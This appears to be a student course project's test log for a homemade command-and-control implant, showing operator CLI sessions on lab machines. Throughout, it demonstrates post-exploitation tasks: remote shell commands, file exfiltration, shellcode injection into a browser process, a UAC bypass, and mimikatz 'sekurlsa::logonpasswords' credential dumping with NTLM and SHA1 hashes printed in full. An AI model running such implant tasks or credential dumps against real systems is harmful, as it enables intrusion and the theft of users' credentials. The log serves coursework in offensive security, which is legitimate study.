


# Final Tests

## Cli

Bonus functions supported:

1. Tab completion
2. All commands have help and usage information
3. Alias creation and deletion
4. Loading alias from file

## Client

### Setup

Registration

```bash
agents > list

--------------------------------------------------
ID              : 71402520
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 3
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Mon, 09 May 2022 20:46:22 GMT
Updated         : Mon, 09 May 2022 20:46:22 GMT
--------------------------------------------------
```

Windowless: verified.

### Basic tasks

`whoami`: show current user.  

```bash
71402520 > whoami
71402520 > history
...
71402520 > task 1

ID              : 0681762e
Type            : Whoami
Created         : Mon, 09 May 2022 20:50:03 GMT
Updated         : Mon, 09 May 2022 20:50:11 GMT
Input           :
Status          : Complete
Result          :
User
```

`pwd`: print working directory.  
`cd`: change working directory.  

```bash
71402520 > pwd
71402520 > cd ..
71402520 > pwd
71402520 > cd Client
71402520 > pwd
71402520 > history
...
71402520 > task 5

ID              : 4ffdbb4c
Type            : Pwd
Created         : Mon, 09 May 2022 20:53:52 GMT
Updated         : Mon, 09 May 2022 20:54:00 GMT
Input           :
Status          : Complete
Result          :
C:\Users\User\cs151\Client

71402520 > task 4

ID              : 7b4351e9
Type            : ChangeDir
Created         : Mon, 09 May 2022 20:53:54 GMT
Updated         : Mon, 09 May 2022 20:54:13 GMT
Input           : ..
Status          : Complete
Result          :


71402520 > task 3

ID              : 3ce5feca
Type            : Pwd
Created         : Mon, 09 May 2022 20:53:56 GMT
Updated         : Mon, 09 May 2022 20:54:26 GMT
Input           :
Status          : Complete
Result          :
C:\Users\User\cs151

71402520 > task 2

ID              : 370e9ace
Type            : ChangeDir
Created         : Mon, 09 May 2022 20:53:58 GMT
Updated         : Mon, 09 May 2022 20:54:38 GMT
Input           : Client
Status          : Complete
Result          :


71402520 > task 1

ID              : 1a4bd8e6
Type            : Pwd
Created         : Mon, 09 May 2022 20:54:00 GMT
Updated         : Mon, 09 May 2022 20:54:51 GMT
Input           :
Status          : Complete
Result          :
C:\Users\User\cs151\Client

```

`ps`: get a list of running processes.

```bash
71402520 > ps
71402520 > history
...
71402520 > task 1

ID              : 346f1e0b
Type            : PsList
Created         : Mon, 09 May 2022 20:58:32 GMT
Updated         : Mon, 09 May 2022 20:58:42 GMT
Input           :
Status          : Complete
Result          :
PID     Parent PID      Architecture    Username                        Process Name
 5916   788             x64             CS151-OFS-08\User               rdpclip.exe
 5948   1312            x64             CS151-OFS-08\User               sihost.exe
 6040   672             x64             CS151-OFS-08\User               svchost.exe
 6072   672             x64             CS151-OFS-08\User               svchost.exe
 6128   1164            x64             CS151-OFS-08\User               taskhostw.exe
 6332   6272            x64             CS151-OFS-08\User               explorer.exe
 6700   672             x64             CS151-OFS-08\User               svchost.exe
 7152   800             x64             CS151-OFS-08\User               StartMenuExperienceHost.exe
 3788   800             x64             CS151-OFS-08\User               RuntimeBroker.exe
 5824   800             x64             CS151-OFS-08\User               SearchApp.exe
 7296   800             x64             CS151-OFS-08\User               RuntimeBroker.exe
 7956   800             x64             CS151-OFS-08\User               RuntimeBroker.exe
 2408   6332            x64             CS151-OFS-08\User               SecurityHealthSystray.exe
 7464   6332            x64             CS151-OFS-08\User               vmtoolsd.exe
 4004   6332            x64             CS151-OFS-08\User               OneDrive.exe
 4804   6332            x64             CS151-OFS-08\User               msedge.exe
 8212   4804            x64             CS151-OFS-08\User               msedge.exe
 8468   4804            x64             CS151-OFS-08\User               msedge.exe
 8504   4804            x64             CS151-OFS-08\User               msedge.exe
 8580   4804            x64             CS151-OFS-08\User               msedge.exe
 8864   6332            x64             CS151-OFS-08\User               powershell.exe
 8972   8864            x64             CS151-OFS-08\User               conhost.exe
 5588   800             x64             CS151-OFS-08\User               Cortana.exe
 8976   800             x64             CS151-OFS-08\User               RuntimeBroker.exe
 8968   672             x64             CS151-OFS-08\User               svchost.exe
 5200   6332            x64             CS151-OFS-08\User               cmd.exe
 5348   5200            x64             CS151-OFS-08\User               conhost.exe
 7536   672             x64             CS151-OFS-08\User               svchost.exe
 2968   6332            x64             CS151-OFS-08\User               ProcessHacker.exe
 4264   800             x64             CS151-OFS-08\User               ShellExperienceHost.exe
 9408   800             x64             CS151-OFS-08\User               RuntimeBroker.exe
 9764   6332            x64             CS151-OFS-08\User               cmd.exe
 9820   9764            x64             CS151-OFS-08\User               conhost.exe
 776    9764            x86             CS151-OFS-08\User               py.exe
 4852   776             x64             CS151-OFS-08\User               python.exe
 1872   800             x64             CS151-OFS-08\User               ApplicationFrameHost.exe
 3540   800             x64             CS151-OFS-08\User               TextInputHost.exe
 2984   800             x64             CS151-OFS-08\User               dllhost.exe
 9236   800             x64             CS151-OFS-08\User               UserOOBEBroker.exe
 9576   800             x64             CS151-OFS-08\User               SearchApp.exe
 4440   800             x64             CS151-OFS-08\User               Microsoft.Photos.exe
 1860   800             x64             CS151-OFS-08\User               RuntimeBroker.exe
 6876   6332            x64             CS151-OFS-08\User               powershell.exe
 9832   6876            x64             CS151-OFS-08\User               conhost.exe
 3644   8864            x64             CS151-OFS-08\User               cmd.exe
 9580   3644            x64             CS151-OFS-08\User               flask.exe
 4792   9580            x64             CS151-OFS-08\User               python.exe
 5740   4792            x64             CS151-OFS-08\User               flask.exe
 5480   5740            x64             CS151-OFS-08\User               python.exe
 8532   6332            x64             CS151-OFS-08\User               Client.exe
```

`shell`: execute shell command under the current privilege.

```bash
71402520 > shell "cmd.exe /c ipconfig /all"
71402520 > shell "cmd.exe /c whoami /groups"
71402520 > history
...
71402520 > task 2

ID              : 51c42ec2
Type            : Command
Created         : Mon, 09 May 2022 21:00:17 GMT
Updated         : Mon, 09 May 2022 21:00:23 GMT
Input           : cmd.exe /c ipconfig /all
Status          : Complete
Result          :

Windows IP Configuration

   Host Name . . . . . . . . . . . . : CS151-OFS-08
   Primary Dns Suffix  . . . . . . . :
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : eecs.tufts.edu

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : eecs.tufts.edu
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-83-B7-C3
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::c1a1:68e6:2ab8:c02b%3(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.5.128.8(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.252.0
   Lease Obtained. . . . . . . . . . : Monday, May 9, 2022 3:56:04 PM
   Lease Expires . . . . . . . . . . : Monday, May 16, 2022 3:56:03 PM
   Default Gateway . . . . . . . . . : 10.5.128.1
   DHCP Server . . . . . . . . . . . : 130.64.23.171
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-80-B6-8A-00-50-56-83-B7-C3
   DNS Servers . . . . . . . . . . . : 130.64.23.171
                                       130.64.21.254
   Primary WINS Server . . . . . . . : 130.64.21.252
   Secondary WINS Server . . . . . . : 130.64.23.26
                                       130.64.23.192
   NetBIOS over Tcpip. . . . . . . . : Enabled


71402520 > task 1

ID              : 3c304c04
Type            : Command
Created         : Mon, 09 May 2022 21:00:20 GMT
Updated         : Mon, 09 May 2022 21:00:36 GMT
Input           : cmd.exe /c whoami /groups
Status          : Complete
Result          :

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

### File Transfer

Hashes of files involved:

```powershell
PS C:\Users\User\cs151\Client> certutil -hashfile 5MB.zip MD5
MD5 hash of 5MB.zip:
b3215c06647bc550406a9c8ccc378756

PS C:\Users\User\cs151\Client> certutil -hashfile 100MB.zip MD5
MD5 hash of 100MB.zip:
5b563100babfef2f2ec9ab2d55e97fd1
```

`download`: download a file from client to server.

Cli outputs:

```bash
71402520 > download 5MB.zip
71402520 > download 100MB.zip
71402520 > history
...
71402520 > task 2

ID              : bb9d5ac0
Type            : Upload
Created         : Mon, 09 May 2022 21:02:52 GMT
Updated         : Mon, 09 May 2022 21:02:58 GMT
Input           : 5MB.zip
Status          : Complete
Result          :


71402520 > task 1

ID              : dad82474
Type            : Upload
Created         : Mon, 09 May 2022 21:02:56 GMT
Updated         : Mon, 09 May 2022 21:04:10 GMT
Input           : 100MB.zip
Status          : Complete
Result          :
```

Server outputs:

```bash
file saved to: C:\Users\User\cs151\Server\data\71402520\download\36324ed5-5MB.zip
MD5:b3215c06647bc550406a9c8ccc378756
...
file saved to: C:\Users\User\cs151\Server\data\71402520\download\9051d505-100MB.zip
MD5:5b563100babfef2f2ec9ab2d55e97fd1
```

`upload`: upload a file from server to client.

Cli outputs:

```bash
71402520 > upload 5MB.zip 5MB-new.zip
71402520 > upload 100MB.zip 100MB-new.zip
71402520 > history
...
71402520 > task 2

ID              : 0b6141de
Type            : Download
Created         : Mon, 09 May 2022 21:09:11 GMT
Updated         : Mon, 09 May 2022 21:10:27 GMT
Input           : C:\Users\User\cs151\Server\data\71402520\download\5MB.zip 5MB-new.zip
Status          : Complete
Result          :


71402520 > task 1

ID              : 2b3b3c30
Type            : Download
Created         : Mon, 09 May 2022 21:09:06 GMT
Updated         : Mon, 09 May 2022 21:10:10 GMT
Input           : C:\Users\User\cs151\Server\data\71402520\download\100MB.zip 100MB-new.zip
Status          : Complete
Result          :
```

MD5 hashes:

```powershell
PS C:\Users\User\cs151\Client> certutil -hashfile 5MB-new.zip MD5
MD5 hash of 5MB-new.zip:
b3215c06647bc550406a9c8ccc378756
...
PS C:\Users\User\cs151\Client> certutil -hashfile 100MB-new.zip MD5
MD5 hash of 100MB-new.zip:
5b563100babfef2f2ec9ab2d55e97fd1
```

### Remote Shellcode Injection

`scinject`: inject shellcode into another process.

```bash
f59de40f > scinject calc_thread_x64.bin 4804
f59de40f > history
...
f59de40f > task 1

ID              : c829e1f2
Type            : RemoteInject
Created         : Mon, 09 May 2022 21:35:04 GMT
Updated         : Mon, 09 May 2022 21:35:11 GMT
Input           : 4804
Status          : Complete
Result          :
```

Result:


### Privilege Manipulation/Escalation

`listprivs`: list the privileges of the current process.  
`setpriv`: enable or disable a privilege of the current process.

```bash
af610798 > listprivs
af610798 > setpriv SeChangeNotifyPrivilege disabled
af610798 > listprivs
af610798 > history
...
af610798 > task 3

ID              : 3d88d8a9
Type            : ListPrivs
Created         : Mon, 09 May 2022 21:41:07 GMT
Updated         : Mon, 09 May 2022 21:41:30 GMT
Input           :
Status          : Complete
Result          :
SeAssignPrimaryTokenPrivilege: Disabled
SeAuditPrivilege: Disabled
SeBackupPrivilege: Disabled
SeChangeNotifyPrivilege: Enabled
...

af610798 > task 2

ID              : f44cc40d
Type            : SetPriv
Created         : Mon, 09 May 2022 21:41:52 GMT
Updated         : Mon, 09 May 2022 21:41:56 GMT
Input           : SeChangeNotifyPrivilege disabled
Status          : Complete
Result          :


af610798 > task 1

ID              : a83c340b
Type            : ListPrivs
Created         : Mon, 09 May 2022 21:41:54 GMT
Updated         : Mon, 09 May 2022 21:42:09 GMT
Input           :
Status          : Complete
Result          :
SeAssignPrimaryTokenPrivilege: Disabled
SeAuditPrivilege: Disabled
SeBackupPrivilege: Disabled
SeChangeNotifyPrivilege: Disabled
...
```

whoami /groups | findstr Level
`bypassuac`: from medium integrity, run a command in high integrity without prompting user account control.

```bash
af610798 > bypassuac 1 "cmd.exe"
af610798 > history
...
af610798 > task 1

ID              : 510c0849
Type            : BypassUAC
Created         : Mon, 09 May 2022 21:45:15 GMT
Updated         : Mon, 09 May 2022 21:45:22 GMT
Input           : cmd.exe
Status          : Complete
Result          :
```



`getsystem`: from high integrity, run a command in system integrity

### Credential Dumping

`mimikatz`: run mimikatz commands.
```bash
C:\Users\rob\Desktop\Group_9\cs151\Server\cli>py .\cli.py
Alias 'logonpassword' created
Alias 'coffee' created

...

194ae039 > coffee
194ae039 > logonpassword
194ae039 > history

--------------------------------------------------
ID              : e39d3dca
Type            : Mimikatz
Created         : Mon, 09 May 2022 23:16:00 GMT
Updated         : Mon, 09 May 2022 23:16:21 GMT
Input           : privilege::debug;sekurlsa::logonpasswords
Status          : Complete
------
ID              : 9cc2ea41
Type            : Mimikatz
Created         : Mon, 09 May 2022 23:15:55 GMT
Updated         : Mon, 09 May 2022 23:16:07 GMT
Input           : standard::version;standard::coffee
Status          : Complete
--------------------------------------------------

194ae039 > task e39d3dca

ID              : e39d3dca
Type            : Mimikatz
Created         : Mon, 09 May 2022 23:16:00 GMT
Updated         : Mon, 09 May 2022 23:16:21 GMT
Input           : privilege::debug;sekurlsa::logonpasswords
Status          : Complete
Result          :

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 470368 (00000000:00072d60)
Session           : Interactive from 1
User Name         : rob
Domain            : DESKTOP-0RKB5J9
Logon Server      : DESKTOP-0RKB5J9
Logon Time        : 5/9/2022 6:54:29 PM
SID               : S-1-5-21-3241081146-2372338978-4002801390-1001
        msv :
         [00000003] Primary
         * Username : rob
         * Domain   : DESKTOP-0RKB5J9
         * NTLM     : 4fac91af19e7739a34322cb3f0a39480
         * SHA1     : 2bd4869e153162336673dfeaf26752b647acddd1
        tspkg :
        wdigest :
         * Username : rob
         * Domain   : DESKTOP-0RKB5J9
         * Password : (null)
        kerberos :
         * Username : rob
         * Domain   : DESKTOP-0RKB5J9
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 470338 (00000000:00072d42)
Session           : Interactive from 1
User Name         : rob
Domain            : DESKTOP-0RKB5J9
Logon Server      : DESKTOP-0RKB5J9
Logon Time        : 5/9/2022 6:54:29 PM
SID               : S-1-5-21-3241081146-2372338978-4002801390-1001
        msv :
         [00000003] Primary
         * Username : rob
         * Domain   : DESKTOP-0RKB5J9
         * NTLM     : 4fac91af19e7739a34322cb3f0a39480
         * SHA1     : 2bd4869e153162336673dfeaf26752b647acddd1
        tspkg :
        wdigest :
         * Username : rob
         * Domain   : DESKTOP-0RKB5J9
         * Password : (null)
        kerberos :
         * Username : rob
         * Domain   : DESKTOP-0RKB5J9
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:38 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 45938 (00000000:0000b372)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:38 PM
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-0RKB5J9$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 45865 (00000000:0000b329)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:38 PM
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-0RKB5J9$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DESKTOP-0RKB5J9$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:37 PM
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-0RKB5J9$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : desktop-0rkb5j9$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 25338 (00000000:000062fa)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:37 PM
SID               : S-1-5-96-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-0RKB5J9$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 25287 (00000000:000062c7)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:37 PM
SID               : S-1-5-96-0-0
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-0RKB5J9$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 24389 (00000000:00005f45)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:36 PM
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-0RKB5J9$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 5/9/2022 6:51:36 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-0RKB5J9$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : desktop-0rkb5j9$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO

194ae039 > task 9cc2ea41

ID              : 9cc2ea41
Type            : Mimikatz
Created         : Mon, 09 May 2022 23:15:55 GMT
Updated         : Mon, 09 May 2022 23:16:07 GMT
Input           : standard::version;standard::coffee
Status          : Complete
Result          :

mimikatz(commandline) # standard::version

mimikatz 2.2.0 (arch x64)
Windows NT 10.0 build 19044 (arch x64)
msvc 191627045 0

mimikatz(commandline) # standard::coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'
```


### Misc tasks

`screenshot`: take a screenshot of the client machine's desktop.  
`sleep`: adjust the time between client check-ins.
`terminate`: terminate the client process.
